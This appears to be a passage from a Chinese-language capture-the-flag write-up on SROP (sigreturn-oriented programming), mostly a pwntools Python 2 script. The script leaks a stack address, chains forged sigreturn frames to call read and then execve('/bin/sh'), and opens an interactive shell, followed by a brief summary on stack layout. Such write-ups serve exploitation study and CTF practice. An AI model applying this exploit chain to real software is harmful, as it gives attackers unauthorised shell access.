 ```python

leak_stack_addr=u64(p.recv()[8:16])
print hex(leak_stack_addr)   #leak_stack==0x7fffffffe20a

frame1=SigreturnFrame()
frame1.rax=constants.SYS_read
frame1.rdi=0x0               #arguments1
frame1.rsi=leak_stack_addr   #arguments2
frame1.rdx=0x400             #arguments3
                             #read(0,leak_stack_addr,0x400)
frame1.rsp=leak_stack_addr
frame1.rip=syscall_addr
payload3=p64(start_addr)+'a'*8+str(frame1)
p.send(payload3)             #syscall read to read payload3 to stack

sigreturn = p64(syscall_addr)+'b'*7       
p.send(sigreturn)            #len(sigreturn)==15 to syscall sigreturn next

frame2=SigreturnFrame()
frame2.rax=constants.SYS_execve
frame2.rdi=leak_stack_addr+0x300 #arguments1
frame2.rsi=0x0                   #arguments2
frame2.rdx=0x0                   #arguments3
frame2.rip=syscall_addr
payload4=p64(start_addr)+'b'*8+str(frame2)
payload5=payload4+(0x300-len(payload4))*'\x00'+'/bin/sh\x00'
p.send(payload5)

p.send(sigreturn)
p.sendline('whoami')

p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623157785716-d84d52c4-3f2b-497c-8a8b-25e44ccdfa7e.png)

# 总结
注意，SROP的栈布置：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1622455069201-ac27ea29-768e-4c3c-8ac8-1f40f035bac6.png)

